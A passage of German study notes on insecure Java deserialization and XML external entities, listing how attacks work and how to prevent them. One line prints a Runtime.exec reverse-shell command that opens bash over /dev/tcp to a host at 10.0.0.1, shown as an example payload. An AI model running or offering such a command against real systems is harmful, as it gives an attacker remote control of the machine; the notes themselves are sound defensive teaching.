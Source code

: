 - Sicherheitsprobleme tauchen auf, wenn der Status von Objekten ausserhalb der trusted boundaries gespeichert ist. Z.B.:
  - Cookies
  - Datei, auf welche der Angreifer Zugriff hat
- Ein Angreifer kann
  - Den Status des Objektes lesen
    - so kommt er beispielsweise an Keys oder sonstige Geheimnisse
  - Status des Objektes manipulieren. Dies führt zu:
    - Tampering der Daten im Speicher
    - Schadcode ausführen (indem der Typ des deserialisierten Objektes verändert wird)
    - Applikation zum Crash bringen



- Beispiele für unsichere Deserialisierung
  - Java Serialisation ist ein Core Feature von Java
    - Dazu gehören:
      - `java.io.ObjectOutputStream`
      - `java.io.ObjectInputStream`
  - So kann ein Objekt auf dem Klassenpfad gespeichert werden
  - RMI/JMX ports in Java Applikationen des Servers deserialisieren einkommende Payloads und rufen die definierte Methode `readObject()` auf vor dem Type Check
- Was ist an `readObject()` schlecht?
  - Beispielsweise in der library commons-collections <= 3.2.1, ein Angreifer kann child Objekte erstellen und können auf Reflections basierende Methoden aufrufen zur deserialisierung
  - der Angreifer kann einen Payload zusammenschmieden, der beliebigen Java Code auf dem Klassenpfad ausführt
  - -> z.B.: eine Revers shell erstellen: 
    - `Runtime.getRuntime().exec("["/bin/bash", "-c", "exec 5<>/dev/tcp/10.0.0.1/2002;cat<&5 | while read line; do \$line 2>&5 >&5; done"] as String[]")`

### Deserialization Attacks verhindern

- Keine serialisierung verwenden
- Deserialisierung deaktivieren
- Funktionen, welche deserialisierung benötigen deaktivieren (z.B.: JMX)
- Blockiere / Limitiere Zugriff auf Ports von Services, welche RMI verwenden
- Wissen, welche ladbaren Klassen im Klassenpfad sind und gegebenenfalls limitieren
- Deserialisierungs Code isolieren und seine Rechte einschränken (z.B.: Dedizierte VM, Containers, SELinux oder einfach mit limitierten Privilegien laufen lassen)
- Integrität und Authentizität von zu deserialisierenden Objekten prüfen

## XML External Data Entities (XXE)

- XML Prozessor wird angewiesen eine Resource (z.B.: eine Datei) oder ähnliches in das zu verarbeitende Dokument mit einzubeziehen oder es an einen Web Service zu senden
- Es gibt 2 Typen von XML Schema Definitionen:
  - **XSD** -> **X**ml **Sc**hema **D**efinition
    - Basiert selbst auch auf XML (bzw. ist valides XML)
  - **DTD** -> **D**ocument **T**ype **D**efinition
    - Hat sein eigenes Format
- XXE betrifft nur DTD. Denn dies erlaubt entities (konstanten), welche auf eine externe System Resource zeigen mit den Protokollen `file:://` oder `http://`
